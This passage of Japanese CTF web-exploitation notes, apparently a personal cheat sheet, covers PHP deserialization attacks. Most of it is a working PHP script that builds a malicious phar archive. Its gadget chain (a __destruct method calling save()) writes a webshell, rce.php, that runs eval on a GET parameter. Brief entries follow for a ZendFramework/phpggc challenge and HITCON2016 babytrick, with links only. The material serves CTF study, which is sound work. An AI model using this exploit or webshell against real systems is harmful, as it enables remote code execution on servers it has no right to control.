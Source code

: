 `image`クラスの`$image->file='rce.php'`,`$image->data='<?php echo "1337"; var_dump(eval($_GET["eval"]));';`をセットすることでWebshellを設置する！  
```php
<?php
class controller_audio {
    public $default_audio;
    public function __destruct(){
        if($this->default_audio !== null){                
            $this->default_audio->save();
        }
    }
}
class image {
    public $title;
    public $file;
    public $data;
    public $id;
    public $album_id;
    public function __construct($title,$file,$id,$album_id){
        $this->title = $title;
        $this->file = $file;
        $this->id = $id;
        $this->album_id = $album_id;
    }
    public function save() {        
        $local_dir = 'files/';
        $root_dir = '.';
        $yummy = ["..","//","<",">"];
        $filename = str_replace($yummy," ",$this->file);
        echo $root_dir."/".$local_dir.$filename;
        file_put_contents($root_dir."/".$local_dir.$filename, $this->data);
        echo "Uploaded: ".$local_dir.$filename;
    }
}
@unlink('phar.phar');
$phar = new Phar('phar.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'test');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$o = new controller_audio();
$image = new image(null,null,null,null);
$image->file = 'rce.php';
$image->data = '<?php echo "1337"; var_dump(eval($_GET["eval"]));';
$o->default_audio = $image;
$phar->setMetadata($o);
$phar->stopBuffering();
getimagesize('phar://phar.phar/test.txt');
?>
```
## ZendFramework / phpggc (AceBear CTF2019 web 100)
https://ctf.yeuchimse.com/acebear-security-contest-2019-duudududduduudstore-image-service-best-band-of-asia-web-100/  
https://movrment.blogspot.com/2019/04/acebear-ctf-2019-web-category.html  
- **entrypoint**  
ZendFrameworkのgadgetを使うやつ。問題設定がよくわからん…  
https://github.com/ambionics/phpggc  
- **payload**  
???  
## MySQL UTF-8 / don't invoke \_\_wakeup() (hitcon2016 babytrick)
https://github.com/orangetw/My-CTF-Web-Challenges#babytrick  
https://lorexxar.cn/2016/10/10/hitcon2016/  